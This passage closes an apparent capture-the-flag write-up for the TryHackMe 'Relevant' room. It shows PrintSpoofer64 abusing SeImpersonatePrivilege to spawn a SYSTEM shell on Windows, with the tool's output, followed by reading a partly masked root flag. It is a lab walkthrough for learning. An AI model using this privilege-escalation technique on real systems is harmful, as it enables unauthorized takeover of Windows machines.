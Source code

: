 ```bash
c:\Temp>PrintSpoofer64.exe -i -c cmd
PrintSpoofer64.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

- **`-i`**: Launches an interactive process.
- **`-c cmd`**: Runs `cmd.exe` as SYSTEM.

Now we should be user `SYSTEM` and be able to read the root.txt

```bash
C:\Users\Administrator\Desktop>whoami
nt authority\system

C:\Users\Administrator\Desktop>type root.txt
THM{1fk5kf469devly1*********l345pv}
```

---
## Final Thoughts

The **Relevant CTF** offered a practical learning experience, focusing on SMB enumeration and privilege escalation via misconfigurations. It’s a well-structured challenge that reinforces essential skills for real-world scenarios.

![Desktop View](RelevantPwn.png)

-- -
**Thanks for reading, i’ll appreciate that you take a look to my other posts :)**

